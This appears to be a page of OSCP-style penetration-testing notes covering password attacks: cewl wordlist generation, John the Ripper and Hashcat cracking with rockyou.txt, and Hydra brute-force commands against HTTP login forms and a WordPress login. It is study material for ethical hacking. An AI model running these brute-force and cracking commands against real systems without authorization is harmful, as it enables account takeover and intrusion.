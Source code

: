 ### :panda_face: [Wordlists](https://github.com/D4nk0St0rM/oscp_ethical_hacking/tree/main/wordlists)

Generate a custom wordlist
```
cewl -w createWordlist.txt -m <min password length> https://www.example.com
```
### :panda_face: Hashes

https://hashes.org/search.php

john the ripper
```
john --wordlist=/user/share/wordlists/rockyou.txt hash.txt
```


- [Hashcat 1](https://github.com/D4nk0St0rM/oscp_ethical_hacking/blob/main/tools/hashcat.md)
- [Hashcat 2](https://github.com/D4nk0St0rM/oscp_ethical_hacking/blob/main/666_Hashcat.md)
```
hashcat -m\<type> -a 0 /usr/share/wordlists/rockyou.txt hash.txt
```

### :panda_face: Web

[Hydra](https://github.com/D4nk0St0rM/oscp_ethical_hacking/blob/main/666_Hydra.md)
[Hydra pdf](https://github.com/D4nk0St0rM/oscp_ethical_hacking/blob/main/tools/Hydra-Password-Cracking-Cheatsheet.pdf)

HTTP post form
```
hydra -L <wordlist> -P<password list> <IP> http-post-form "<file path>:username=^USER^&password=^PASS^&Login=Login:<fail message>"
```

Wordpress
```
hydra -l admin  -P /opt/seclists/Passwords/probable-v2-top1575.txt  TARGET -V http-form-post '/wp/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

```


